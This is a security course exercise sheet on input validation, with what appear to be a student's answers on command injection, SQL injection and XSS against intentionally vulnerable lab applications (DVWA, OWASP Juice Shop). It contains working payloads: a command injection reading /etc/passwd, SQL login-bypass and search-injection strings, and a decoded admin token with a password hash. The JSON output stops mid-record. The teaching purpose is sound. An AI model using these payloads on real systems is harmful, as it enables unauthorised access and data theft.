



# 5.  Data Input Security

Software faults, errors, or bugs are familiar terms to anyone who has been involved in software development.
These terms typically refer to any condition that prevents a system from performing its required functions. 
Such issues can arise from design faults, implementation errors, or a combination of both, ultimately leading to the same result. [^1]

Sometimes these faults can have more serious consequences than software just “not working”.
There is a specific goal of what software is supposed to do.
Whoever designed and implemented the software, set these goals, maybe based on the strict requirement list.
When designing the software, even the cyber security triad CIA might have come up. 
What if the design or implementation fault compromises some, if not all, of the triad? Or the requirements were just misunderstood?

The **Common Weakness Enumeration** (CWE) is a well-known category system [^2] for these kinds of faults; It especially focuses on faults or *weaknesses* which has an impact on the security of the software or overall systems, and provides a framework for understanding and mitigating potential security risks.

> A “weakness” is a condition in a software, firmware, hardware, or service component that, under certain circumstances, could contribute to the introduction of vulnerabilities. [^5]


We can take a look at CWE's top 25 most dangerous software weaknesses from 2022 [^3] and 2023 [^4], and see that *most of the most dangerous weaknesses are related to data processing of the software, especially to data that can be thought as **input.***


We can further see this by looking into the *Top 10 Known Exploited Vulnerabilities Catalog from 2023*, which was published by the United States' [Cybersecurity and Infrastructure Security Agency (CISA)](https://www.dhs.gov/cisa/cybersecurity-division).
It maps the usage of known exploits to weakness categories and ranks the misuse of the specific weaknesses after the vulnerability in the software has been found. [^5] [^6]

We have more about software-specific vulnerabilities on the final week's exercises.


Memory errors are typically related to input processing, and they are also handled more in the next week.
Their dangers and exploitation of them are handled more in-depth on the course *Cyber Security III: Hardware and Software Security.*

From the image, 4, 5, 6, 8 and 9th are also related in some way to input. 
Typically, the software operates through interfaces. 
Software functions by executing predefined sequences of operations, which are directed through user interfaces or automated inputs. 
The software is designed to follow a specific workflow, branching into different execution paths based on its programming logic.

Inputs act as the initial triggers that activate and guide the software's processes. As the software receives new data through its interfaces, these inputs can alter the course of its operational logic, leading to varied outcomes.
What if some of these inputs are something unexpected?

The type of data a software system can accept and correctly process is determined by its _input validation and sanitisation_ mechanisms. These mechanisms attempt to ensure that only appropriate and safe data is processed, protecting the system from unexpected behaviour or security vulnerabilities.

However, these can fail, as seen above.

## Input validation

Input validation checks if the input meets a specific criterion before accepting it — kind of like a bouncer at a club.

Let's say, we want to validate that program takes **only valid emails as input**. 
It might sound easy, but for example, the 99.99% correct RFC 5322 standard compliant email regex looks like the following [^7].

```none
(?:[a-z0-9!#$%&'*+/=?^_`{|}~-]+(?:\.[a-z0-9!#$%&'*+/=?^_`{|}~-]+)*|"(?:[\x01-\x08\x0b\x0c\x0e-\x1f\x21\x23-\x5b\x5d-\x7f]|\\[\x01-\x09\x0b\x0c\x0e-\x7f])*")@(?:(?:[a-z0-9](?:[a-z0-9-]*[a-z0-9])?\.)+[a-z0-9](?:[a-z0-9-]*[a-z0-9])?|\[(?:(?:25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.){3}(?:25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?|[a-z0-9-]*[a-z0-9]:(?:[\x01-\x08\x0b\x0c\x0e-\x1f\x21-\x5a\x53-\x7f]|\\[\x01-\x09\x0b\x0c\x0e-\x7f])+)\])
```

Input validation can fail, and if your security depends on the validator which might not be 100% correct, there can be issues.
If the unintended input that bypasses the validator can do something unexpected with the underlying software, you might have introduced a vulnerability.

## Input sanitisation

Input sanitisation, on the other hand, cleans up the input, removing any potentially malicious bits that could cause chaos.

Imagine you have a web application with a form that asks users for their names, which will be displayed on the website.
Without sanitisation, an attacker could enter a script into the name field, like `<script>alert('Hacked!');</script>`.
If unsanitised, this script could execute in the browser of anyone viewing the name, leading to a Cross-Site Scripting (XSS) attack [^8].

To prevent this, input sanitisation would involve stripping out or encoding potentially dangerous characters or strings before they're processed or displayed. For example, you could sanitise the input by converting characters like `<` and `>` into their HTML-encoded equivalents `&lt;` and `&gt;`, rendering the script harmless and preventing it from executing as part of the webpage.

Input sanitisation can also fail, for example, if you do not process every dangerous character, or if there is a way to undo or bypass this process.

## Input neutralisation

Neutralisation is an abstract term for any technique that ensures that input (and output) conforms with expectations and is "safe." [^15]

## Identifying input-related threats

Whenever the program receives data as input through some interface, *there is always a risk for a vulnerability.*
Is the data processed correctly, noting all possible scenarios?

To effectively identify input-specific threats, one must always consider the final destination and use of the input data within the software's ecosystem; for example, what if it is passed *directly* as a parameter for the shell?

In that case, the environment for the data is shell, and that opens up the possibility for exploitation using shell-supported syntax, allowing attackers to manipulate the input in ways that can trigger unintended actions by the software.
Weakness in this context is usually called as *CWE-78: Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')* [^9]

If we go even deeper, how is the data passed into the computer's memory? Does it fit for its reserved slot? If it does not, we will have some memory problems. This is historically one of the most dangerous weaknesses; *CWE-787: Out-of-bounds Write*. [^10]

The exercises focus purely on input processing this week, mostly by using manual means for testing it.
In the next week, we will take a look into *fuzzing*, which attempts to automate the process of identifying input-related weaknesses. 

## Grading

You can obtain up to five points from this exercise.

You are not required to do tasks in order, but it is recommended.

All the tasks should be returned to GitHub this week.

| Task # | Points | Description |
| ---- | :--: | ---- |
| Task 1 | 2 | Basics of command injections |
| Task 2 | 1 | Interceptions and SQL injections |
| Task 3 | 2 | Advanced Cross-site Scripting (XSS) |

## Task 1: Basics of command injections

> Return this task to GitHub

Take a look at the sample Python application [ping_service.py](ping_service.py).

It has a [command injection](https://owasp.org/www-community/attacks/Command_Injection) weakness.

Assuming that you have `ping` command and Python on your system, you can run it as

```sh
python ping_service.py 1.1.1.1
```

As a completion of this task, answer the following questions.

### Q1: Find an example command injection that prints the content of `/etc/passwd` file, by just providing input for the sample program.
Example command injection that prints the content of `/etc/passwd` file is 127.0.0.1; cat /etc/passwd
### Q2: It has potentially two issues which have led injection to be possible. What are they? 
the two issues are:
shell=True, which allows the subprocess module to invoke the system shell, giving some characters special functions such as ; as command spearators
No input validation, as the python code doesn't check for compounded commands or malicious arguments and characters 
### Q3: How can you fix them?
to fix the problem we can:
Change shell from True to False
Implement a regex validation to ensure the input only contains valid IP or hostname characters.
### Q4: How would you implement either input validation or input sanitisation for this context? What could be better? 
Added shell setting change and regex validation in the main code.
> [!Note]
> *Implement either one of them, or both, and provide the code.* Command-injection should not be possible any more.

### Q5: How can you be sure that injection is not possible anymore?
Changing shell=False forces the OS to use the whole input string as an argument rather than an instruction, preventing the system shell from interpreting special characters as new commands.
Implementing Regex Validation helps filter out malicious characters 
### Extra: Do the same (and more) with a Damn Vulnerable Web Application (DVWA).

Check the [DVWA repository](https://github.com/digininja/DVWA/tree/master) and clone it.
Run `docker-compose up` on that directory.

Log in as `admin:password`in address `http://localhost:4280`, create the default database and log in again. You will find `ping` command injection from there, but this time with PHP implementation.

On the left, close to the bottom, there is **DVWA Security** section; on there you can change the security level and see how the source code implementation changes for that part.
You must also set this to other than impossible before you can actually make an injection. 
You can adjust the injection difficulty with the same setting (how good is the input validation/sanitisation!).

# Task 2: Interceptions and SQL injections

> Return this task to GitHub

Web-based applications are often exposed to the public internet, and that makes them observable to anyone.  
That also means that the risk for misuse can be higher. 
As a result, we have had increased focus on identifying web-related security issues, and historically we have seen quite many of them.

Typically, these applications are intended to be used by their clients, e.g. mobile apps or just browsers.
These clients connect to the server through different interfaces, possibly using different protocols.
The end-user uses the client based on its user interface.
Overall, this brings us quite many interfaces.

What could go wrong, if your web application does not handle the user or any data input correctly, *on every interface?* Or proper authentication mechanisms are not applied?
What if someone decides *to not use the official clients, while nobody thinks it is normal, like Mallory?*




For this exercise, we explore some of those scenarios, by going to test one quite vulnerable web application, [OWASP's Juice Shop](https://github.com/juice-shop/juice-shop). 
Its documentation is available [here.](https://pwning.owasp-juice.shop/companion-guide/latest/introduction/README.html)

At the same time, we also try out one well-known security testing application, [Burp Suite's Community Edition](https://portswigger.net/burp). 
We mainly use it as an intercepting proxy that sits between the browser and the webserver to intercept and manipulate requests exchange, like the following.



You can also do most of the things just by using browser's developer tools or, for example, [Zed Attack Proxy (ZAP)](https://www.zaproxy.org).

To install Burp Suite on Arch Linux, run

```sh
yay -S burpsuite
```

Take a look at Burp Suite's [documentation](https://portswigger.net/burp/documentation/desktop), especially “Getting Started” section.

> [!Note]
> If you happen to run ARM-based machine, you need to install Burp Suite from the webpage, as the Arch Linux does not bundle the Burp's own browser. On MacBooks, it is better to just use `brew` to install it.


### Getting started with Juice Shop

To start the Juice Shop server from the Docker image, run command

```sh
docker run --rm -p 3000:3000 bkimminich/juice-shop
```

And navigate to `localhost:3000` to explore this shop.
If you already want to start recording all the traffic, you can do this by opening Burp Suite, locating Proxy → Intercept tabs, and opening Burp Suite's built-in browser.

You will see all the HTTP requests on `Target` or `Proxy` tab if you play around with the website at this point. 

### Task 2A) Logging in with SQL injection (0.5p)

Take a look at what is SQL injection weakness CWE-89 [^11] [^12]. 

Juice Shop's login is actually vulnerable for that — the value from the email field is directly passed as part of the SQL command.

Try logging in with random credentials and observe traffic in Burp Suite. Try to trigger an error, based on how SQL syntax works.
You can right-click the request on Burp Suite and send it to “Repeater”, where you can modify and send it easily again.
You can also enable "intercepting": every request from Burp Browser will be paused on Burp before they are delivered to the server.

Once you can trigger the error, check the response for that request. It might reveal quite something interesting.

Now, modify the request so that *your input causes a bypass for the password check on the final SQL command*. As a result, you will log in as the first user.

On Burp Suite, a successful request will return an authentication token, which is actually a [JWT token](https://jwt.io/). Decode it to see, as which user you have logged in.

Neither the client side nor the server side had any kind of input validation.

> Return the input you used in email field to log in.
I used ' OR 1=1-- in the email field to log in
> Explain your final SQL command.
Using a single quote to close out the intended data field and a always true statement to make the query logic always true.
Lastly the -- comments out the rest of the request to bypass the password check.
> Return *decoded* JWT token.
{
  "status": "success",
  "data": {
    "id": 1,
    "username": "",
    "email": "admin@juice-sh.op",
    "password": "0192023a7bbd73250516f069df18b500",
    "role": "admin",
    "deluxeToken": "",
    "lastLoginIp": "",
    "profileImage": "assets/public/images/uploads/defaultAdmin.png",
    "totpSecret": "",
    "isActive": true,
    "createdAt": "2026-02-15 14:43:26.860 +00:00",
    "updatedAt": "2026-02-15 14:43:26.860 +00:00",
    "deletedAt": null
  },
  "iat": 1771169139
}

### Task 2B) Hidden products (0.5p)

Take a look at the [Christmas Special Offer](https://pwning.owasp-juice.shop/companion-guide/latest/part2/injection.html#_order_the_christmas_special_offer_of_2014).

The search field has input validation in place this time on the client side, but… there isn't such thing on the server side.

How can you get a list of all products, including the deleted ones?

> Return the input you use in search field to modify the inner SQL command and **also** include JSON data which contains all the products as response.
I used ')) OR 1=1--

{"status":"success","data":[{"id":1,"name":"Apple Juice (1000ml)","description":"The all-time classic.","price":1.99,"deluxePrice":0.99,"image":"apple_juice.jpg","createdAt":"2026-02-15 16:21:37.167 +00:00","updatedAt":"2026-02-15 16:21:37.167 +00:00","deletedAt":null},{"id":2,"name":"Orange Juice (1000ml)","description":"Made from oranges hand-picked by Uncle Dittmeyer.","price":2.99,"deluxePrice":2.49,"image":"orange_juice.jpg","createdAt":"2026-02-15 16:21:37.167 +00:00","updatedAt":"2026-02-15 16:21:37.167 +00:00","deletedAt":null},{"id":3,"name":"Eggfruit Juice (500ml)","description":"Now with even more exotic flavour.","price":8.99,"deluxePrice":8.99,"image":"eggfruit_juice.jpg","createdAt":"2026-02-15 16:21:37.167 +00:00","updatedAt":"2026-02-15 16:21:37.167 +00:00","deletedAt":null},{"id":4,"name":"Raspberry Juice (1000ml)","description":"Made from blended Raspberry Pi, water and sugar.","price":4.99,"deluxePrice":4.99,"image":"raspberry_juice.jpg","createdAt":"2026-02-15 16:21:37.167 +00:00","updatedAt":"2026-02-15 16:21:37.167 +00:00","deletedAt":null},{"id":5,"name":"Lemon Juice (500ml)","description":"Sour but full of vitamins.","price":2.99,"deluxePrice":1.99,"image":"lemon_juice.jpg","createdAt":"2026-02-15 16:21:37.167 +00:00","updatedAt":"2026-02-15 16:21:37.167 +00:00","deletedAt":null},{"id":6,"name":"Banana Juice (1000ml)","description":"Monkeys love it the most.","price":1.99,"deluxePrice":1.99,"image":"banana_juice.jpg","createdAt":"2026-02-15 16:21:37.167 +00:00","updatedAt":"2026-02-15 16:21:37.167 +00:00","deletedAt":null},{"id":7,"name":"OWASP Juice Shop T-Shirt","description":"Real fans wear it 24/7!","price":22.49,"deluxePrice":22.49,"image":"fan_shirt.jpg","createdAt":"2026-02-15 16:21:37.167 +00:00","updatedAt":"2026-02-15 16:21:37.167 +00:00","deletedAt":null},{"id":8,"name":"OWASP Juice Shop CTF Girlie-Shirt","description":"For serious Capture-the-Flag heroines only!","price":22.49,"deluxePrice":22.49,"image":"fan_girlie.jpg","createdAt":"2026-02-15 16:21:37.167 +00:00","updatedAt":"2026-02-15 16:21:37.167 +00:00","deletedAt":null},{"id":9,"name":"OWASP SSL Advanced Forensic Tool (O-Saft)","description":"O-Saft is an easy to use tool to show information about SSL certificate and tests the SSL connection according given list of ciphers and various SSL configurations. <a href=\"https://www.owasp.org/index.php/O-Saft\" target=\"_blank\">More...</a>","price":0.01,"deluxePrice":0.01,"image":"orange_juice.jpg","createdAt":"2026-02-15 16:21:37.169 +00:00","updatedAt":"2026-02-15 16:21:37.169 +00:00","deletedAt":null},{"id":10,"name":"Christmas Super-Surprise-Box (2014 Edition)","description":"Contains a random selection of 10 bottles (each 500ml) of our tastiest juices and an extra fan shirt for an unbeatable price! (Seasonal special offer! Limited availability!)","price":29.99,"deluxePrice":29.99,"image":"undefined.jpg","createdAt":"2026-02-15 16:21:37.169 +00:00","updatedAt":"2026-02-15 16:21:37.169 +00:00","deletedAt":"2026-02-15 16:21:37.520 +00:00"},{"id":11,"name":"Rippertuer Special Juice","description":"Contains a magical collection of the rarest fruits gathered from all around the world, like Cherymoya Annona cherimola, Jabuticaba Myrciaria cauliflora, Bael Aegle marmelos... and others, at an unbelievable price! <br />This item has been made unavailable because of lack of safety standards. (This product is unsafe! We plan to remove it from the stock!)","price":16.99,"deluxePrice":16.99,"image":"undefined.jpg","createdAt":"2026-02-15 16:21:37.169 +00:00","updatedAt":"2026-02-15 16:21:37.169 +00:00","deletedAt":"2026-02-15 16:21:37.558 +00:00"},{"id":12,"name":"OWASP Juice Shop Sticker (2015/2016 design)","description":"Die-cut sticker with the official 2015/2016 logo. By now this is a rare collectors item. <em>Out of stock!</em>","price":999.99,"deluxePrice":999.99,"image":"sticker.png","createdAt":"2026-02-15 16:21:37.169 +00:00","updatedAt":"2026-02-15 16:21:37.169 +00:00","deletedAt":"2026-02-15 16:21:37.588 +00:00"},{"id":13,"name":"OWASP Juice Shop Iron-Ons (16pcs)","description":"Upgrade your clothes with washer safe <a href=\"https://www.stickeryou.com/products/owasp-juice-shop/794\" target=\"_blank\">iron-ons</a> of the OWASP Juice Shop or CTF Extension logo!","price":14.99,"deluxePrice":14.99,"image":"iron-on.jpg","createdAt":"2026-02-15 16:21:37.170 +00:00","updatedAt":"2026-02-15 16:21:37.170 +00:00","deletedAt":null},{"id":14,"name":"OWASP Juice Shop Magnets (16pcs)","description":"Your fridge will be even cooler with these OWASP Juice Shop or CTF Extension logo <a href=\"https://www.stickeryou.com/products/owasp-juice-shop/794\" target=\"_blank\">magnets</a>!","price":15.99,"deluxePrice":15.99,"image":"magnets.jpg","createdAt":"2026-02-15 16:21:37.170 +00:00","updatedAt":"2026-02-15 16:21:37.170 +00:00","deletedAt":null},{"id":15,"name":"OWASP Juice Shop Sticker Page","description":"Massive decoration opportunities with these OWASP Juice Shop or CTF Extension <a href=\"https://www.stickeryou.com/products/owasp-juice-shop/794\" target=\"_blank\">sticker pages</a>! Each page has 16 stickers on it.","price":9.99,"deluxePrice":9.99,"image":"sticker_page.jpg","createdAt":"2026-02-15 16:21:37.170 +00:00","updatedAt":"2026-02-15 16:21:37.170 +00:00","deletedAt":null},{"id":16,"name":"OWASP Juice Shop Sticker Single","description":"Super high-quality vinyl <a href=\"https://www.stickeryou.com/products/owasp-juice-shop/794\" target=\"_blank\">sticker single</a> with the OWASP Juice Shop or CTF Extension logo! The ultimate laptop decal!","price":4.99,"deluxePrice":4.99,"image":"sticker_single.jpg","createdAt":"2026-02-15 16:21:37.171 +00:00","updatedAt":"2026-02-15 16:21:37.171 +00:00","deletedAt":null},{"id":17,"name":"OWASP Juice Shop Temporary Tattoos (16pcs)","description":"Get one of these <a href=\"https://www.stickeryou.com/products/owasp-juice-shop/794\" target=\"_blank\">temporary tattoos</a> to proudly wear the OWASP Juice Shop or CTF Extension logo on your skin! If you tweet a photo of yourself with the tattoo, you get a couple of our stickers for free! Please mention <a href=\"https://twitter.com/owasp_juiceshop\" target=\"_blank\"><code>@owasp_juiceshop</code></a> in your tweet!","price":14.99,"deluxePrice":14.99,"image":"tattoo.jpg","createdAt":"2026-02-15 16:21:37.171 +00:00","updatedAt":"2026-02-15 16:21:37.171 +00:00","deletedAt":null},{"id":18,"name":"OWASP Juice Shop Mug","description":"Black mug with regular logo on one side and CTF logo on the other! Your colleagues will envy you!","price":21.99,"deluxePrice":21.99,"image":"fan_mug.jpg","createdAt":"2026-02-15 16:21:37.171 +00:00","updatedAt":"2026-02-15 16:21:37.171 +00:00","deletedAt":null},{"id":19,"name":"OWASP Juice Shop Hoodie","description":"Mr. Robot-style apparel. But in black. And with logo.","price":49.99,"deluxePrice":49.99,"image":"fan_hoodie.jpg","createdAt":"2026-02-15 16:21:37.171 +00:00","updatedAt":"2026-02-15 16:21:37.171 +00:00","deletedAt":null},{"id":20,"name":"OWASP Juice Shop-CTF Velcro Patch","description":"4x3.5\" embroidered patch with velcro backside. The ultimate decal for every tactical bag or backpack!","price":2.92,"deluxePrice":2.92,"image":"velcro-patch.jpg","createdAt":"2026-02-15 16:21:37.171 +00:00","updatedAt":"2026-02-15 16:21:37.171 +00:00","deletedAt":null},{"id":21,"name":"Woodruff Syrup \"Forest Master X-Treme\"","description":"Harvested and manufactured in the Black Forest, Germany. Can cause hyperactive behavior in children. Can cause permanent green tongue when consumed undiluted.","price":6.99,"deluxePrice":6.99,"image":"woodruff_syrup.jpg","createdAt":"2026-02-15 16:21:37.171 +00:00","updatedAt":"2026-02-15 16:21:37.171 +00:00","deletedAt":null},{"id":22,"name":"Green Smoothie","description":"Looks poisonous but is actually very good for your health! Made from green cabbage, spinach, kiwi and grass.","price":1.99,"deluxePrice":1.99,"image":"green_smoothie.jpg","createdAt":"2026-02-15 16:21:37.172 +00:00","updatedAt":"2026-02-15 16:21:37.172 +00:00","deletedAt":null},{"id":23,"name":"Quince Juice (1000ml)","description":"Juice of the <em>Cydonia oblonga</em> fruit. Not exactly sweet but rich in Vitamin C.","price":4.99,"deluxePrice":4.99,"image":"quince.jpg","createdAt":"2026-02-15 16:21:37.172 +00:00","updatedAt":"2026-02-15 16:21:37.172 +00:00","deletedAt":null},{"id":24,"name":"Apple Pomace","description":"Finest pressings of apples. Allergy disclaimer: Might contain traces of worms. Can be <a href=\"/#recycle\">sent back to us</a> for recycling.","price":0.89,"deluxePrice":0.89,"image":"apple_pressings.jpg","createdAt":"2026-02-15 16:21:37.172 +00:00","updatedAt":"2026-02-15 16:21:37.172 +00:00","deletedAt":null},{"id":25,"name":"Fruit Press","description":"Fruits go in. Juice comes out. Pomace you can send back to us for recycling purposes.","price":89.99,"deluxePrice":89.99,"image":"fruit_press.jpg","createdAt":"2026-02-15 16:21:37.172 +00:00","updatedAt":"2026-02-15 16:21:37.172 +00:00","deletedAt":null},{"id":26,"name":"OWASP Juice Shop Logo (3D-printed)","description":"This rare item was designed and handcrafted in Sweden. This is why it is so incredibly expensive despite its complete lack of purpose.","price":99.99,"deluxePrice":99.99,"image":"3d_keychain.jpg","createdAt":"2026-02-15 16:21:37.173 +00:00","updatedAt":"2026-02-15 16:21:37.173 +00:00","deletedAt":null},{"id":27,"name":"Juice Shop Artwork","description":"Unique masterpiece painted with different kinds of juice on 90g/m² lined paper.","price":278.74,"deluxePrice":278.74,"image":"artwork.jpg","createdAt":"2026-02-15 16:21:37.173 +00:00","updatedAt":"2026-02-15 16:21:37.173 +00:00","deletedAt":"2026-02-15 16:21:38.020 +00:00"},{"id":28,"name":"Global OWASP WASPY Award 2017 Nomination","description":"Your chance to nominate up to three quiet pillars of the OWASP community ends 2017-06-30! <a href=\"https://www.owasp.org/index.php/WASPY_Awards_2017\">Nominate now!</a>","price":0.03,"deluxePrice":0.03,"image":"waspy.png","createdAt":"2026-02-15 16:21:37.173 +00:00","updatedAt":"2026-02-15 16:21:37.173 +00:00","deletedAt":"2026-02-15 16:21:38.045 +00:00"},{"id":29,"name":"Strawberry Juice (500ml)","description":"Sweet & tasty!","price":3.99,"deluxePrice":3.99,"image":"strawberry_juice.jpeg","createdAt":"2026-02-15 16:21:37.173 +00:00","updatedAt":"2026-02-15 16:21:37.173 +00:00","deletedAt":null},{"id":30,"name":"Carrot Juice (1000ml)","description":"As the old German saying goes: \"Carrots are good for the eyes. Or has anyone ever seen a rabbit with glasses?\"","price":2.99,"deluxePrice":2.99,"image":"carrot_juice.jpeg","createdAt":"2026-02-15 16:21:37.173 +00:00","updatedAt":"2026-02-15 16:21:37.173 +00:00","deletedAt":null},{"id":31,"name":"OWASP Juice Shop Sweden Tour 2017 Sticker Sheet (Special Edition)","description":"10 sheets of Sweden-themed stickers with 15 stickers on each.","price":19.1,"deluxePrice":19.1,"image":"stickersheet_se.png","createdAt":"2026-02-15 16:21:37.173 +00:00","updatedAt":"2026-02-15 16:21:37.173 +00:00","deletedAt":"2026-02-15 16:21:38.118 +00:00"},{"id":32,"name":"Pwning OWASP Juice Shop","description":"<em>The official Companion Guide</em> by Björn Kimminich available <a href=\"https://leanpub.com/juice-shop\">for free on LeanPub</a> and also <a href=\"https://pwning.owasp-juice.shop\">readable online</a>!","price":5.99,"deluxePrice":5.99,"image":"cover_small.jpg","createdAt":"2026-02-15 16:21:37.173 +00:00","updatedAt":"2026-02-15 16:21:37.173 +00:00","deletedAt":null},{"id":33,"name":"Melon Bike (Comeback-Product 2018 Edition)","description":"The wheels of this bicycle are made from real water melons. You might not want to ride it up/down the curb too hard.","price":2999,"deluxePrice":2999,"image":"melon_bike.jpeg","createdAt":"2026-02-15 16:21:37.173 +00:00","updatedAt":"2026-02-15 16:21:37.173 +00:00","deletedAt":null},{"id":34,"name":"OWASP Juice Shop Coaster (10pcs)","description":"Our 95mm circle coasters are printed in full color and made from thick, premium coaster board.","price":19.99,"deluxePrice":19.99,"image":"coaster.jpg","createdAt":"2026-02-15 16:21:37.174 +00:00","updatedAt":"2026-02-15 16:21:37.174 +00:00","deletedAt":null},{"id":35,"name":"OWASP Snakes and Ladders - Web Applications","description":"This amazing web application security awareness board game is <a href=\"https://steamcommunity.com/sharedfiles/filedetails/?id=1969196030\">available for Tabletop Simulator on Steam Workshop</a> now!","price":0.01,"deluxePrice":0.01,"image":"snakes_ladders.jpg","createdAt":"2026-02-15 16:21:37.174 +00:00","updatedAt":"2026-02-15 16:21:37.174 +00:00","deletedAt":null},{"id":36,"name":"OWASP Snakes and Ladders - Mobile Apps","description":"This amazing mobile app security awareness board game is <a href=\"https://steamcommunity.com/sharedfiles/filedetails/?id=1970691216\">available for Tabletop Simulator on Steam Workshop</a> now!","price":0.01,"deluxePrice":0.01,"image":"snakes_ladders_m.jpg","createdAt":"2026-02-15 16:21:37.174 +00:00","updatedAt":"2026-02-15 16:21:37.174 +00:00","deletedAt":null},{"id":37,"name":"OWASP Juice Shop Holographic Sticker","description":"Die-cut holographic sticker. Stand out from those 08/15-sticker-covered laptops with this shiny beacon of 80's coolness!","price":2,"deluxePrice":2,"image":"holo_sticker.png","createdAt":"2026-02-15 16:21:37.174 +00:00","updatedAt":"2026-02-15 16:21:37.174 +00:00","deletedAt":null},{"id":38,"name":"OWASP Juice Shop \"King of the Hill\" Facemask","description":"Facemask with compartment for filter from 50% cotton and 50% polyester.","price":13.49,"deluxePrice":13.49,"image":"fan_facemask.jpg","createdAt":"2026-02-15 16:21:37.174 +00:00","updatedAt":"2026-02-15 16:21:37.174 +00:00","deletedAt":null},{"id":39,"name":"Juice Shop Adversary Trading Card (Common)","description":"Common rarity \"Juice Shop\" card for the <a href=\"https://docs.google.com/forms/d/e/1FAIpQLSecLEakawSQ56lBe2JOSbFwFYrKDCIN7Yd3iHFdQc5z8ApwdQ/viewform\">Adversary Trading Cards</a> CCG.","price":2.99,"deluxePrice":0.99,"image":"ccg_common.png","createdAt":"2026-02-15 16:21:37.174 +00:00","updatedAt":"2026-02-15 16:21:37.174 +00:00","deletedAt":"2026-02-15 16:21:38.325 +00:00"},{"id":40,"name":"Juice Shop Adversary Trading Card (Super Rare)","description":"Super rare \"Juice Shop\" card with holographic foil-coating for the <a href=\"https://docs.google.com/forms/d/e/1FAIpQLSecLEakawSQ56lBe2JOSbFwFYrKDCIN7Yd3iHFdQc5z8ApwdQ/viewform\">Adversary Trading Cards</a> CCG.","price":99.99,"deluxePrice":69.99,"image":"ccg_foil.png","createdAt":"2026-02-15 16:21:37.174 +00:00","updatedAt":"2026-02-15 16:21:37.174 +00:00","deletedAt":"2026-02-15 16:21:38.354 +00:00"},{"id":41,"name":"Juice Shop \"Permafrost\" 2020 Edition","description":"Exact version of <a href=\"https://github.com/juice-shop/juice-shop/releases/tag/v9.3.1-PERMAFROST\">OWASP Juice Shop that was archived on 02/02/2020</a> by the GitHub Archive Program and ultimately went into the <a href=\"https://github.blog/2020-07-16-github-archive-program-the-journey-of-the-worlds-open-source-code-to-the-arctic\">Arctic Code Vault</a> on July 8. 2020 where it will be safely stored for at least 1000 years.","price":9999.99,"deluxePrice":9999.99,"image":"permafrost.jpg","createdAt":"2026-02-15 16:21:37.174 +00:00","updatedAt":"2026-02-15 16:21:37.174 +00:00","deletedAt":null},{"id":42,"name":"Best Juice Shop Salesman Artwork","description":"Unique digital painting depicting Stan, our most qualified and almost profitable salesman. He made a succesful carreer in selling used ships, coffins, krypts, crosses, real estate, life insurance, restaurant supplies, voodoo enhanced asbestos and courtroom souvenirs before <em>finally</em> adding his expertise to the Juice Shop marketing team.","price":5000,"deluxePrice":5000,"image":"artwork2.jpg","createdAt":"2026-02-15 16:21:37.175 +00:00","updatedAt":"2026-02-15 16:21:37.175 +00:00","deletedAt":null},{"id":43,"name":"OWASP Juice Shop Card (non-foil)","description":"Mythic rare <em>(obviously...)</em> card \"OWASP Juice Shop\" with three distinctly useful abilities. Alpha printing, mint condition. A true collectors piece to own!","price":1000,"deluxePrice":1000,"image":"card_alpha.jpg","createdAt":"2026-02-15 16:21:37.175 +00:00","updatedAt":"2026-02-15 16:21:37.175 +00:00","deletedAt":null},{"id":44,"name":"20th Anniversary Celebration Ticket","description":"Get your <a href=\"https://20thanniversary.owasp.org/\" target=\"_blank\">free 🎫 for OWASP 20th Anniversary Celebration</a> online conference! Hear from world renowned keynotes and special speakers, network with your peers and interact with our event sponsors. With an anticipated 10k+ attendees from around the world, you will not want to miss this live on-line 